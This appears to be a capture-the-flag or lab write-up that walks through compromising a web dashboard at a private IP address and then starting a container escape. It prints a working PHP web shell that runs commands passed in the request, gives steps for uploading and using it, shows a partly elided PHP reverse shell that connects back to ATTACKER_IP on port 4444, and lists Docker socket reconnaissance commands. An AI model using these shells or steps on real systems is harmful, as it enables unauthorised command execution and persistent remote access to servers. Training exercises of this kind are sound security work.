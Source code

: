 **Target**: `http://192.168.1.10:8080/dashboard.php?page=files`

**PHP Web Shell Upload**:
```php
<?php
// Save as shell.php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

**Exploitation Steps**:
1. Upload `shell.php` via file upload form
2. Access: `http://192.168.1.10:8080/uploads/shell.php?cmd=id`
3. Execute commands: `?cmd=whoami`, `?cmd=pwd`, `?cmd=ls -la`

### 3.3 Advanced Web Shell

**PHP Reverse Shell**:
```php
<?php
// Save as revshell.php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'ATTACKER_IP';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// ... (full reverse shell code)
exec("/bin/sh -c '$shell'");
?>
```

**Result**: Established persistent reverse shell access as `www-data` user.

---

## 🐳 Phase 4: Container Escape (25 points)

### 4.1 Container Environment Analysis

```bash
# Verify we're in a container
cat /proc/1/cgroup | grep docker
ls -la /.dockerenv

# Check mounted volumes
mount | grep docker

# Key finding: Docker socket is mounted
# /var/run/docker.sock:/var/run/docker.sock
```
